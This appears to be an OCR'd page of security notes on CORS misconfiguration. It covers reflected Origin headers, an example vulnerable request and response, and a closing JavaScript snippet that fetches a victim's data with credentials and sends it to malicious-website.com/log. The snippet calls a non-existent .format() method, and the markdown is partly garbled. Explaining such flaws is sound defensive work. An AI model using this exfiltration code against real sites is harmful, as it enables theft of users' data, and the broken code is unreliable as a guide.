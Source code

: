 ```text
When a request's credentials mode ([Request.credentials](https://developer.mozilla.org/en-US/docs/Web/API/Request/credentials)) is `include`, browsers will only expose the response to frontend JavaScript code if the `Access-Control-Allow-Credentials` value is true.

Credentials are cookies, authorization headers or TLS client certificates.

# CORS Misconfiguration

Many modern websites use CORS to allow access from subdomains and trusted third parties. Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities.

## Generation the Access-Control-Allow-Origin Header

No browsers actually support a space-separated list of origins (the specification suggests this), like:

```http request
Access-Control-Allow-Origin: http://foo.com http://bar.net
```

Additionally, a wildcard won't work to trust all subdomains, like

\`\`\`http request Access-Control-Allow-Origin: \*.bar.net

```text
The only wildcard origin is `'*'`.

Since you cannot use wildcard in `Access-Control-Allow-Origin` when credentials flag is true - [click](#access-control-allow-origin), many servers programmatically generate the `Access-Control-Allow-Origin` header based on the user-supplied `Origin` value. If you see a HTTP response with any `Access-Control-*` headers but no origins declared, this is a strong indication that the server will generate the header based on your input. Other servers will only send CORS headers if they receive a request containing the `Origin` header, making associated vulnerabilities extremely easy to miss.

For example, application receives the following request:

```http request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=<token>
```

and responds with:

\`\`\`http request HTTP/1.1 200 OK Access-Control-Allow-Origin: [https://malicious-website.com](https://malicious-website.com) Access-Control-Allow-Credentials: true ...

```text
If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```js
fetch("https://vulnerable-website.com/sensitive-victim-data", {
    credentials: "include"
})
    .then((response) => {
        document.location = "//malicious-website.com/log?key={0}".format(response.text());
    });
```
